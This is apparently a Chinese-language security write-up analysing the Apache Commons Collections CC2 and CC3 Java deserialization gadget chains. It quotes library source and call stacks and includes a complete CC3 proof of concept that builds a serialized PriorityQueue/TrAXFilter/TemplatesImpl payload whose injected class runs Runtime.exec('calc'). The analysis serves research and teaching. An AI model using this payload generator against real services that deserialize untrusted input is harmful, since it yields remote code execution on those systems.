
首先反序列化的入口在PriorityQueue.readObject()
在PriorityQueue中我们可控的是queue和comparator
readObject调用了heapify()方法,接着又进入到siftDown()中
在comparator不为空的情况下进入siftDownUsingComparator()
在siftDownUsingComparator()中调用了if (comparator.compare(x, (E) c) <= 0)即调用了comparator的compare()方法
这里我们控制comparator为TransformingComparator,接着进入TransformingComparator.compare()中
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 ... public class PriorityQueue <E > extends AbstractQueue <E > implements java .io .Serializable { transient Object[] queue; private int size = 0 ; private final Comparator<? super E> comparator; transient int modCount = 0 ; public PriorityQueue (int initialCapacity) this (initialCapacity, null ); } public PriorityQueue (int initialCapacity, Comparator<? super E> comparator) if (initialCapacity < 1 ) throw new IllegalArgumentException(); this .queue = new Object[initialCapacity]; this .comparator = comparator; } private void readObject (java.io.ObjectInputStream s) throws java.io.IOException, ClassNotFoundException { s.defaultReadObject(); s.readInt(); queue = new Object[size]; for (int i = 0 ; i < size; i++) queue[i] = s.readObject(); heapify(); } private void heapify () for (int i = (size >>> 1 ) - 1 ; i >= 0 ; i--) siftDown(i, (E) queue[i]); } private void siftDown (int k, E x) if (comparator != null ) siftDownUsingComparator(k, x); else siftDownComparable(k, x); } private void siftDownUsingComparator (int k, E x) int half = size >>> 1 ; while (k < half) { int child = (k << 1 ) + 1 ; Object c = queue[child]; int right = child + 1 ; if (right < size && comparator.compare((E) c, (E) queue[right]) > 0 ) c = queue[child = right]; if (comparator.compare(x, (E) c) <= 0 ) break ; queue[k] = c; k = child; } queue[k] = x; } }
可以看到在TransformingComparator.compare()中调用了this.transformer.transform(obj1),我们控制this.transformer为InvokerTransform实例,其中传入的方法参数为newTransformer
1 2 3 InvokerTransformer transformer = new InvokerTransformer("newTransformer" , null , null ); TransformingComparator transformer_comparator = new TransformingComparator(transformer);
传入obj1为我们构造的恶意TemplatesImpl对象
进入TemplatesImpl.newTransformer()
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 ... public class TransformingComparator <I , O > implements Comparator <I >, Serializable private static final long serialVersionUID = 3456940356043606220L ; private final Comparator<O> decorated; private final Transformer<? super I, ? extends O> transformer; public TransformingComparator (Transformer<? super I, ? extends O> transformer) this (transformer, ComparatorUtils.NATURAL_COMPARATOR); } public TransformingComparator (Transformer<? super I, ? extends O> transformer, Comparator<O> decorated) this .decorated = decorated; this .transformer = transformer; } public int compare (I obj1, I obj2) O value1 = this .transformer.transform(obj1); O value2 = this .transformer.transform(obj2); return this .decorated.compare(value1, value2); }
在这个方法中,又重新实例化了一个TemplatesImpl的类,此时会调用getTransletInstance()
在getTransletInstance()中调用defineTransletClasses()将恶意类放入_class中
接着AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();实例化该恶意类
最后触发恶意类构造函数中的命令执行代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 public final class TemplatesImpl implements Templates , Serializable static final long serialVersionUID = 673094361519270707L ; public final static String DESERIALIZE_TRANSLET = "jdk.xml.enableTemplatesImplDeserialization" ; private static String ABSTRACT_TRANSLET = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet" ; private String _name = null ; private byte [][] _bytecodes = null ; private Class[] _class = null ; ... public synchronized Transformer newTransformer () throws TransformerConfigurationException { TransformerImpl transformer; transformer = new TransformerImpl(getTransletInstance(), _outputProperties, _indentNumber, _tfactory); if (_uriResolver != null ) { transformer.setURIResolver(_uriResolver); } if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) { transformer.setSecureProcessing(true ); } return transformer; } private Translet getTransletInstance () throws TransformerConfigurationException { try { if (_name == null ) return null ; if (_class == null ) defineTransletClasses(); AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance(); translet.postInitialization(); translet.setTemplates(this ); translet.setServicesMechnism(_useServicesMechanism); translet.setAllowedProtocols(_accessExternalStylesheet); if (_auxClasses != null ) { translet.setAuxiliaryClasses(_auxClasses); } return translet; } catch (InstantiationException e) { ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name); throw new TransformerConfigurationException(err.toString()); } catch (IllegalAccessException e) { ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name); throw new TransformerConfigurationException(err.toString()); } } private void defineTransletClasses () throws TransformerConfigurationException { if (_bytecodes == null ) { ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR); throw new TransformerConfigurationException(err.toString()); } TransletClassLoader loader = (TransletClassLoader) AccessController.doPrivileged(new PrivilegedAction() { public Object run () return new TransletClassLoader(ObjectFactory.findClassLoader()); } }); try { final int classCount = _bytecodes.length; _class = new Class[classCount]; if (classCount > 1 ) { _auxClasses = new Hashtable(); } for (int i = 0 ; i < classCount; i++) { _class[i] = loader.defineClass(_bytecodes[i]); final Class superClass = _class[i].getSuperclass(); if (superClass.getName().equals(ABSTRACT_TRANSLET)) { _transletIndex = i; } else { _auxClasses.put(_class[i].getName(), _class[i]); } } if (_transletIndex < 0 ) { ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name); throw new TransformerConfigurationException(err.toString()); } } catch (ClassFormatError e) { ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name); throw new TransformerConfigurationException(err.toString()); } catch (LinkageError e) { ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name); throw new TransformerConfigurationException(err.toString()); } }
调用栈 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 CommonsCollections2#main() ois.readObject(); PriorityQueue#readObject() heapify() siftDown() siftDownUsingComparator() comparator.compare(x, (E) c) TransformingComparator#compare() this.transformer.transform(obj1) InvokerTransformer#transform() TemplatesImpl#newTransformer() defineTransletClasses() (AbstractTranslet) _class[_transletIndex].newInstance() 加载恶意类 ... 执行命令
CC3 关键类TemplatesImpl、InstantiateTransformer、TrAXFilter
添加运行配置

POP链分析 poc如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 import javassist.ClassClassPath;import javassist.ClassPool;import javassist.CtClass;import org.apache.commons.collections4.Transformer;import org.apache.commons.collections4.comparators.TransformingComparator;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import org.apache.commons.collections4.functors.InstantiateTransformer;import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;import javax.xml.transform.Templates;import java.io.*;import java.lang.reflect.Constructor;import java.lang.reflect.Field;import java.util.PriorityQueue;public class CommonsCollections3 public static class s1mple } public static void main (String[] args) throws Exception String AbstractTranslet = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet" ; String TemplatesImpl = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ; ClassPool classpool = ClassPool.getDefault(); classpool.insertClassPath(new ClassClassPath(AbstractTranslet.class)); classpool.insertClassPath(new ClassClassPath(s1mple.class)); classpool.insertClassPath(new ClassClassPath(s1mple.class)); CtClass s2mple = classpool.get(s1mple.class.getName()); CtClass s3mple = classpool.get(Class.forName(AbstractTranslet).getName()); s2mple.setSuperclass(s3mple); s2mple.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"calc\");" ); byte [] bt = s2mple.toBytecode(); Class templatesimpl = Class.forName(TemplatesImpl); Constructor constructor= templatesimpl.getConstructor(); Object temp = constructor.newInstance(); Field name = templatesimpl.getDeclaredField("_name" ); name.setAccessible(true ); name.set(temp,"s1mple_hack" ); Field bytecode = templatesimpl.getDeclaredField("_bytecodes" ); bytecode.setAccessible(true ); bytecode.set(temp,new byte [][]{bt}); PriorityQueue priority = new PriorityQueue(); priority.add(1 ); priority.add(1 ); InstantiateTransformer instan = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{temp}); Transformer instans = (Transformer)instan; TransformingComparator trans = new TransformingComparator(instans); Class pri = priority.getClass(); Field com = pri.getDeclaredField("comparator" ); com.setAccessible(true ); com.set(priority,trans); Field que = pri.getDeclaredField("queue" ); que.setAccessible(true ); Class TrA = TrAXFilter.class; Object[] innerArr = (Object[]) que.get(priority); innerArr[0 ] = TrA; innerArr[1 ] = TrA; ObjectOutputStream shuchu = new ObjectOutputStream(new FileOutputStream("a.bin" )); shuchu.writeObject(priority); ObjectInputStream test = new ObjectInputStream(new FileInputStream("a.bin" )); test.readObject(); } }
运行后成功执行命令

反序列化的入口和CC2一样
从PriorityQueue.readObject()进入
我们直接来到PriorityQueue.siftDownUsingComparator()中的if (comparator.compare(x, (E) c) <= 0)
此时传入的x为类TrAXFilter,在poc中是通过反射设置的

控制comparator为TransformingComparator,进入TransformingComparator.compare(),传入的obj1为类TrAXFilter

令transformer为我们构造好的InstantiateTransformer
进入InstantiateTransformer.transform()方法,传入的input为类TrAXFilter
在transform方法中会对传入的input即TrAXFilter进行实例化,并且传入参数iArgs
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 public class InstantiateTransformer <T > implements Transformer <Class <? extends T >, T >, Serializable private static final long serialVersionUID = 3786388740793356347L ; private static final Transformer NO_ARG_INSTANCE = new InstantiateTransformer(); private final Class<?>[] iParamTypes; private final Object[] iArgs; ... public InstantiateTransformer (Class<?>[] paramTypes, Object[] args) this .iParamTypes = paramTypes != null ? (Class[])paramTypes.clone() : null ; this .iArgs = args != null ? (Object[])args.clone() : null ; } public T transform (Class<? extends T> input) try { if (input == null ) { throw new FunctorException("InstantiateTransformer: Input object was not an instanceof Class, it was a null object" ); } else { Constructor<? extends T> con = input.getConstructor(this .iParamTypes); return con.newInstance(this .iArgs); } } catch (NoSuchMethodException var3) { throw new FunctorException("InstantiateTransformer: The constructor must exist and be public " ); } catch (InstantiationException var4) { throw new FunctorException("InstantiateTransformer: InstantiationException" , var4); } catch (IllegalAccessException var5) { throw new FunctorException("InstantiateTransformer: Constructor must be public" , var5); } catch (InvocationTargetException var6) { throw new FunctorException("InstantiateTransformer: Constructor threw an exception" , var6); } } }
poc中对InstantiateTransformer传入的参数为构造好的恶意类TemplatesImpl,this.iArgs为TemplatesImpl
con.newInstance(this.iArgs);即实例化TrAXFilter(TemplatesImpl)
1 2 3 4 InstantiateTransformer instan = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{temp}); Transformer instans = (Transformer)instan; TransformingComparator trans = new TransformingComparator(instans);
进入TrAXFilter的构造函数
接着去到TemplatesImpl.newTransformer()
1 2 3 4 5 6 7 8 9 10 .. public TrAXFilter (Templates templates) throws TransformerConfigurationException { _templates = templates; _transformer = (TransformerImpl) templates.newTransformer(); _transformerHandler = new TransformerHandlerImpl(_transformer); _useServicesMechanism = _transformer.useServicesMechnism(); }
在TemplatesImpl.newTransformer()中调用了getTransletInstance()
最后在getTransletInstance()中加载了恶意类字节码完成了命令执行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 ... public synchronized Transformer newTransformer () throws TransformerConfigurationException { TransformerImpl transformer; transformer = new TransformerImpl(getTransletInstance(), _outputProperties,_indentNumber, _tfactory); if (_uriResolver != null ) { transformer.setURIResolver(_uriResolver); } if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) { transformer.setSecureProcessing(true ); } return transformer; } ... private Translet getTransletInstance () throws TransformerConfigurationException { try { if (_name == null ) return null ; if (_class == null ) defineTransletClasses(); AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance(); translet.postInitialization(); translet.setTemplates(this ); translet.setServicesMechnism(_useServicesMechanism); translet.setAllowedProtocols(_accessExternalStylesheet); if (_auxClasses != null ) { translet.setAuxiliaryClasses(_auxClasses); } return translet; } catch (InstantiationException e) { ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name); throw new TransformerConfigurationException(err.toString()); } catch (IllegalAccessException e) { ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name); throw new TransformerConfigurationException(err.toString()); } }
调用栈 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 CommonsCollections3#main() ois.readObject(); PriorityQueue#readObject() heapify() siftDown() siftDownUsingComparator() comparator.compare(x, (E) c) TransformingComparator#compare() this .transformer.transform(obj1) InstantiateTransformer#transform() return con.newInstance(this .iArgs) TrAXFilter#TrAXFilter() _transformer = (TransformerImpl) templates.newTransformer() TemplatesImpl#newTransformer() defineTransletClasses() (AbstractTranslet) _class[_transletIndex].newInstance() 加载恶意类 ... 执行命令